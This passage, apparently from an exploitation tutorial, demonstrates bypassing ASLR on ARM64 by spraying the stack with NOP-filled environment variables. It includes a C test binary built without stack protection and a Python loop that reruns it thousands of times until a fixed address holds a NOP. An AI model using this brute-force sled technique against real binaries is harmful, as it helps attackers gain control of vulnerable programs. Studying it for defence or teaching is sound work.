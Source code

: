 It's possible to occupy a big part of the stack with env variables and then try to abuse the binary hundreds/thousands of times locally to exploit it.\
The following code shows how it's possible to **just select an address in the stack** and every **few hundreds of executions** that address will contain the **NOP instruction**:

```c
//clang -o aslr-testing aslr-testing.c -fno-stack-protector -Wno-format-security -no-pie
#include <stdio.h>

int main() {
    unsigned long long address = 0xffffff1e7e38;
    unsigned int* ptr = (unsigned int*)address;
    unsigned int value = *ptr;
    printf("The 4 bytes from address 0xffffff1e7e38: 0x%x\n", value);
    return 0;
}
```

```python
import subprocess
import traceback

# Start the process
nop = b"\xD5\x1F\x20\x03" # ARM64 NOP transposed
n_nops = int(128000/4)
shellcode_env_var = nop * n_nops

# Define the environment variables you want to set
env_vars = {
    'a': shellcode_env_var,
    'b': shellcode_env_var,
    'c': shellcode_env_var,
    'd': shellcode_env_var,
    'e': shellcode_env_var,
    'f': shellcode_env_var,
    'g': shellcode_env_var,
    'h': shellcode_env_var,
    'i': shellcode_env_var,
    'j': shellcode_env_var,
    'k': shellcode_env_var,
    'l': shellcode_env_var,
    'm': shellcode_env_var,
    'n': shellcode_env_var,
    'o': shellcode_env_var,
    'p': shellcode_env_var,
}

cont = 0
while True:
    cont += 1

    if cont % 10000 == 0:
        break

    print(cont, end="\r")
    # Define the path to your binary
    binary_path = './aslr-testing'

    try:
        process = subprocess.Popen(binary_path, env=env_vars, stdout=subprocess.PIPE, text=True)
        output = process.communicate()[0]
        if "0xd5" in str(output):
            print(str(cont) + " -> " + output)
    except Exception as e:
        print(e)
```